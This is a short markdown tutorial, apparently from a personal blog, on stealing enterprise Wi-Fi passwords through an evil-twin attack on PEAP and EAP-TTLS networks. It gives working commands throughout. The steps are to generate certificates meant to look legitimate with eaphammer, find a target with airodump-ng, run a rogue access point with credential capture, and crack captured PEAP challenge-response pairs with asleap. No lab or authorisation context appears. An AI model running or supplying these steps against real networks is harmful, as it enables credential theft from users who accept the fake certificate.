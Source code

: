 ```yaml
---
title: PEAP/EAP-TTLS
---
```


## What is this about?
Going for a 2 for one here since the attack is basically the same...

## So what are we doing today?
We're pulling out the big guns and aiming for the passwords in an EvilTwin scenario. But since this is somewhat a *get framework and run with options* process, I'll keep it short.

### The Setup
Install [EAPHammer](https://github.com/s0lst1c3/eaphammer). Read the docs too because there are multiple setups and attacks you can setup and run on this. This will be the most basic example only...

Generate certificates that look legit to a human with
```
./eaphammer --cert-wizard
```
Find your target with
```
airodump-ng mon0
```
Then adapt the bssid, essid and channel and and run the following line
```
./eaphammer --bssid 00:11:22:33:44:55 --essid potato-wifi --channel 2 --wpa 2 --auth wpa-eap --interface wlan0 --creds
```
Hope that a user will click *YES* when your certificate pops on the screen.
If you're attacking an EAP-TTLS, you're pretty much done here...

For PEAP, you just need to wait for usernames/challenges/responses to come to you ;)

#### PEAP Getting the password
You can add the *--autocrack* option to eaphammer and send it to your cracking rig, but where's the fun in that eh?

Get [asleap](https://github.com/joswr1ght/asleap), build it and run it.
```
asleap –C <challenge> -R <response> -W <wordlist>
```
Done!